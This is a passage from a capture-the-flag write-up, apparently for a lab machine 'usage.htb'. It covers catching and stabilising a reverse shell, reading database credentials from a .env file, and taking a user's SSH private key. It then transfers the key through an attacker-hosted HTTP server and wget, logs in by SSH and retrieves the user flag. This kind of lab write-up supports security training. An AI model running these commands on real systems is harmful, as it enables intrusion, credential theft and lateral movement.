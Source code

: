 With a Netcat listener (`nc -lvnp 9001`), a `www-data` shell was obtained and stabilized:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Lateral Movement & User Flag

As `www-data`, explored the filesystem:

```bash
cat /var/www/html/.env
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=usage_blog
DB_USERNAME=staff
DB_PASSWORD=s3cr3t_c0d3d_1uth
```

Found an SSH key for user `dash`:

```bash
cd /home/dash/.ssh
cat id_rsa
```

Hosted the key on the attacker machine:

```bash
python3 -m http.server
```

Downloaded and used the key:

```bash
wget http://10.10.16.30:8000/id_rsa
chmod 600 id_rsa
ssh dash@usage.htb -i id_rsa
```

Retrieved the user flag:

```bash
cat /home/dash/user.txt
<user_flag>
```

Checked login history:

```bash
last
```

**Results:**

```
root   pts/0    10.10.14.40      Mon Apr  8 13:17:47 +0000 2024
dash   pts/0    10.10.16.30      Sat May 11 20:32:26 +0000 2024
xander pts/0    10.10.14.9       Sat May 11 17:53:25 +0000 2024
```
